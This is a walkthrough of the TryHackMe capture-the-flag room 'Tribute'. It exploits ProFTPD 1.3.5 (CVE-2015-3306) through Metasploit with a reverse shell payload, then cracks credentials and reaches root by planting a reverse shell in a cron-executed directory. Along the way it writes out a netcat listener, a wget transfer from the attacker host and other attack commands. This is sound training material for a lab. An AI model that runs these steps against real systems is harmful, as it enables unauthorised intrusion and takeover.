#Tribute

This is a writeup/walkthrough for the TryHackMe room "Tribute" by Joshua17sc.

Here I will include screenshots, explanations, commands and tools I used to complete the room.

I completed this room using Parrot OS, so please note there might be a syntax difference in the commands. I hope this writeup is useful to anyone wanting a great challenge with Tribute, and thank you for using my write up

                                                                          CryptoTzipi aka CyberLola

## DEPLOY THE MACHINE!!!

The first thing we need to do is run a nmap to looks for open ports, vulnerabilities, operating systems and versions.

I like to use the command

`nmap -sV -sC --script=vuln <insert here the target's IP>`

You could also insert the flag -O to find operating systems, but it requires you to run nmap as sudo.

For a comprehensive guide on nmap usage, refer to [Nmap Network Scanning](https://nmap.org/book/toc.html)



Nice! SSH is open on port 22, which means we can SSH into the machine once we get our hands into some credentials!!



ProFTPD 1.3.5 seems to be the service we will exploit, so let’s search for the vulnerability at

[https://www.exploit-db.com](https://www.exploit-db.com) and see what we can use to exploit this machine!

Going through the finished scan and exploit db, we can find all the answers for the first 5 questions of task#1.

Next we should run a directory scan to see if we find something interesting.

 My tool choice is **gobuster** (comes preinstalled in Kali and

Parrot OS. If you are using any other distro and don't have gobuster installed, refer to [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster) )

The command should look like this

**gobuster dir -u http://&lt;target machine's IP> -w /usr/share/wordlists/dirb/common.txt**

dir = directory/file enumeration mode

-u = URL

-w = wordlist path

Looking at our finished scan we discovered another link http://<IP>/src/



Looking at it in your browser, you will see an interesting folder in there. Let's open it! The first file will take us to the image used for

the home page, so nothing there, but looking on the second file ....



Here we have our answer for the last question of the task!!

We found very valuable information during our nmap scan, so it's time to use what we gathered to exploit this machine.

My chosen way to exploit it is through Metasploit Framework, since I really like Metasploit (sorry, Offensive Security)

So let's start it by typing the command

`msfconsole`



**Gotta love Metasploit banners!!!!**

Next, we search for our found vulnerability using the command

`earch CVE-2015-3306`

There is only one result, so we will use that! The command is very simple

`use 0`

You will notice that the module was added to the prompt in red characters.



We still need to get some things ready before we can run our exploit, so we type

`show options`

Here we need to set the `RHOST` (remote host, which is our target machine's IP).

Then we need to set the `SITEPATH` to /var/www/html

We still haven't set a payload for our exploit, so we will do that next!

`show payloads`

It will give you a list of possible payloads. I like the python reverse shells so I will go with that one



`set payload /cmd/unix/reverse_python`

Here we also need to set some things before running the exploit, so we "show options" again and scroll down until we see options

for the payload. We set the LHOST ( local host, which is us here, our computer or TryHackMe attack box if you are using it.

Remember that the IP you want, if you are using your own computer, is the one displayed on top of the TryhackMe page inside a green box! If you are

using the attack box, then the IP is shown in the prompt root@IP )

You can leave the port as 4444 which is the default (not a good idea for a real life engagement since port 4444 is the default in so many exploitation tools)

All seem all good, we can run our exploit either by typing

`run`

OR

`exploit`



And we got a shell!!

To stabilize this shell, type in

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Time to explore around!

As the room says, ls is our ally here .... I go further because I am curious, so I always use `ls -la`

And in the home directory we found ourselves 2 users!!

Next step is to see if we can somehow find some credentials to ssh as one of these users on our quest for privilege escalation.

We know their names, now we need some passwords!

Let's start by going through Angel's stuff...

Diary? People always write personal stuff in diaries...

`cat diary`



OK ... this is a riddle and you can get a password from there.

Booth? drtemperancebrenner?  What is that??

They are hinting username and password using these two words.

I did try to SSH as Angel using drtemperancebrenner as password, so I will save you the trouble.

It does NOT work ... ugh ... so they didn't change the password after all.

Time for some OSINT. What can Booth and drtemperancebrenner possibly be?

Google will tell you!!

Apparently I know NOTHING about American old TV shows from the 90s ...

And this riddle drove me NUTS for a couple of days.

So I will give you some nice hints here.

Booth and drtemperancebrenner are people, they are fictional characters from an American TV show.

Following this path ... read Angel's diary again... and again..

Pay attention! Angel is also a fictional character from an American TV show??

Find out!! :))

Alrighty, so we have Angel's password so let's SSH as Angel



Now we can even easily get the user2.flag!!

Moving on, let's see what other files we can take a peek at!

"She's so stupid"? Who? Let's see!!

The first time I did this, I was rushing so much trying to get the other flag, I forgot to put quotations to cat this file.

My CLI didn't like it so much, so make sure you type

`cat "she's so stupid"`

Oooohhhh Did we just get our hands on some hashes?

Let's see... You can use john (the Ripper) to crack those hashes..

I am lazy, I just used an online tool, and..

Here we go! Another password!!



SSH into meaghyn, and we can get our user.flag!!

Reading the task, we can get an idea of what we need to gain root on this machine.

It mentions cronjobs! What are cronjobs?

A cron job is a Linux command used for scheduling tasks to be executed sometime in the future. A script has to run at a set time for the task to be performed.

How do we find these cronjobs? What can we do with them or to them so we can gain root??

First of all we do need to locate them. For that I use a tool called **pspy**.

pspy is a command-line tool designed to snoop on processes without the need for root permissions.

It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs.

Also great to demonstrate to your colleagues why passing secrets as arguments on the command line is a bad idea!!

The tool gathers it’s info from procfs scans. Inotify watchers placed on selected parts of the file system trigger these scans to catch short-lived processes.

To download the tool/binary you will need to run it, refer to [https://github.com/CyberLola/pspy](https://github.com/CyberLola/pspy)

Read through it to learn how to use it. Pretty clear, even a n00b like me could figure it out the first time I used it for breaking into a machine a while back.

Next we need to upload this tool into meaghyn's system! The easiest, fastest way in my opinion is through wget.

On you computer/attack box set a

`sudo python3 -m http.server 80`

From the directory you saved the tool ( you need to cd into the pspy directory)

On meaghyn's side, you need the following command

`wget http://YOUR IP:80/pspy64 pspy64`

(pspy64 is the binary we downloaded from github)



You will see the tool being downloaded into meaghyn's machine.

Next, you need to make it executable, so

`chmod +x pspy64`

And it is ready to be used!! To run it, just type

`./pspy64`



Be patient. You will see A LOT of output appearing in front of you!!

Let the tool do its thing and just watch.. and the magic happens :)



Now we know that there is a cronjob running every minute, and the script is inside the directory .noises

What we are going to do is put a reverse shell in there, so the next time the cronjob runs, we can listen from our computer, and get a shell.

The script is super simple! I am pretty horrible with Python, so I had to review the PEH course by the Cyber Mentor to go through the little of python that I know, and I managed to write a reverse shell that **WORKS** ( I was super happy about that)

You are very welcome to fork it or  copy it from here [Cyber Lola's GitHub](https://github.com/CyberLola/TRIBUTE/blob/main/reverse_shell_to_root)

cd into .noises and through nano you can make a new file containing the reverse shell. I named my file "sounds.py"

Make sure to change the IP inside for your IP. You can leave the port as 7777 or choose another one of your liking.



BEFORE saving... set up a netcat listener in your computer! If you like my choice of port 7777 then the listener will be

`nc -lvnp 7777`

save your reverse shell... wait patiently for another minute so the cronjob will excecute …

BOOM, you have your shell, and after typing whoami you can see you have gained root!!

`cat root.flag`

DONE!!

If you followed up to here and finished the room, **CONGRATULATIONS!! WELL DONE!**

I hope I was clear on all explanations and steps to complete the room.

If you have any questions or if I can help in any way, please contact me on

[LinkedIn](https://www.linkedin.com/in/kureno/) or [Twitter](https://twitter.com/KurenoLola) and I will be very happy to help!

Thank you very much for using my writeup!

CryptoTzipi (on TryHackMe)

CyberLola (everywhere else)
